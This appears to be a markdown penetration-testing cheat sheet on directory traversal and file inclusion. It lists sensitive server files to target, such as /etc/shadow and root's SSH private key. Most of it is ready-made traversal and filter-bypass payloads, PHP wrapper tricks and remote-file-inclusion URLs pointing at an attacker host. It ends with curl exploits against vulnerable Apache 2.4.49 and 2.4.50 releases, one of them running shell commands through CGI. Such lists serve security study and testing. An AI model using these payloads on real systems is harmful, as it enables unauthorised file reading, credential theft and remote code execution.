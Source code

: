 # Directory Traversal
 Directory traversal is a web vulnerability that allows an attacker to read arbitrary files on the server.
 ![](lfi1.png)

 
			Important files to check
- `/proc/version` 	      specifies the version of the Linux kernel
- `/etc/passwd` 		      has all registered user that has access to a system
- `/etc/shadow`		      contains information about the system's users' passwords
- `/var/mail/root`	 	all emails for root user
- `var/log/dmessage`	  contains global system messages
- `/root/.ssh/id_rsa`	      Private SSH keys for a root or any known user
- `/root/.bash_history`	    contains the history commands for root user

<!-- -->

			Directory Traversal Cheatsheat
Basics:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd`
---
Nesting:
`http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=....\/....\/....\/etc/passwd`

Null Byte Injection:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd%00`
--------------------------------------------------------------------
Encoding:
`http://vulnerable-site.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd%00`
`http://vulnerable-site.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd`

--------------------------------------------------------------------
From an Existent Folder:
`http://vulnerable-site.com/index.php?page=utils/scripts/../../../../../etc/passwd`
--------------------------------------------------------------------
Path Truncation:
`http://vulnerable-site.com/index.php?page=a/../../[ADDMORE]../../etc/passwd`
--------------------------------------------------------------------
Filter Bypass: 
`http://vulnerable-site.com/index.php?page=....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=..///////..////..//////etc/passwd`
`http://vulnerable-site.com/index.php?page=/%5C../%5C../%5C../%5C../etc/passwd` `http://vulnerable-site.com/index.php?page=/var/www/../../etc/passwd`
--------------------------------------------------------------------
RFI:
`http://vulnerable-site.com/index.php?page=http://atacker.com/evil.php`
`http://vulnerable-site.com/index.php?page=\\attacker.com\evil.php`
--------------------------------------------------------------------
PHP Wrappers: filter
`http://vulnerable-site.com/index.php?page=php://filter/read=string.rot13/resource=index.php`
`http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`
`http://vulnerable-site.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
--------------------------------------------------------------------
PHP wrapper: zlib
`http://vulnerable-site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd`
--------------------------------------------------------------------
				Exploits
### Apache 2.4.49 without CGI:
`curl -v 'http://IP$:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'`

### Apache 2.49 with CGI:
`curl -v 'http://IP$:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"`

### Apache 2.4.50
`curl 'http://IP$:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'`